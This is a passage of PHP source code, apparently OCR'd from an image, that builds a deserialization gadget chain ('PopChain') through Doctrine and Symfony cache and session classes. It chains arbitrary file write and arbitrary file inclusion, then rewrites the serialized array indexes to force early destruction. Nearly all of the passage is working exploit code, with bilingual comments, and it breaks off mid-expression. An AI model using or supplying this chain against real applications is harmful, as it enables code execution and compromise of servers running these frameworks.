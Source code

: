 ```bash
}

/* File inclusion objects 文件包含对象*/
namespace Symfony\Component\Cache\Adapter
{
    class PhpArrayAdapter
    {
        public $file = "/tmp/aaa.mocksess"; // fixed at the time
    }
}


namespace PopChain
{
use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\HttpFoundation\Session\Storage\MockFileSessionStorage;
use Symfony\Component\HttpFoundation\Session\Storage\MetadataBag;
use Symfony\Component\Cache\Adapter\PhpArrayAdapter;


/* CacheItem is compatible with PHP 7.*, TypedCacheItem is compatible with PHP 8.* PHP 版本差异选择*/
if (preg_match('/^7/', phpversion()))
{
    $firstCacheItem = new CacheItem();
    $secondCacheItem = new CacheItem();
} 
else 
{
    $firstCacheItem = new TypedCacheItem();
    $secondCacheItem = new TypedCacheItem();
}

/* File write 任意文件写入*/
$obj_write = new CacheAdapter();
$obj_write->deferredItems = [$firstCacheItem];
$mockSessionStorage = new MockFileSessionStorage();
$mockSessionStorage->metadataBag = new MetadataBag();
$obj_write->cache =$mockSessionStorage;

/* File inclusion 任意文件包含*/
$obj_include = new CacheAdapter();
$obj_include->cache = new PhpArrayAdapter();
$secondCacheItem->expiry = 0; // mandatory to go to another branch from CacheAdapter __destruct
$obj_include->deferredItems = [$secondCacheItem];


$obj = [1000 => $obj_write, 1001 => 1, 2000 => $obj_include, 2001 => 1];

$serialized_string = serialize($obj);
// Setting the indexes for fast destruct 设置析构的索引
$find_write = (
    '#i:(' .
        1001 . '|' .
        (1001 + 1) .
    ');#'
);
$replace_write = 'i:' . 1000 . ';';
$serialized_string2 = preg_replace($find_write, $replace_write, $serialized_string);
$find_include = (
    '#i:(' .
        2001 . '|' .
        (2001 + 1) .
```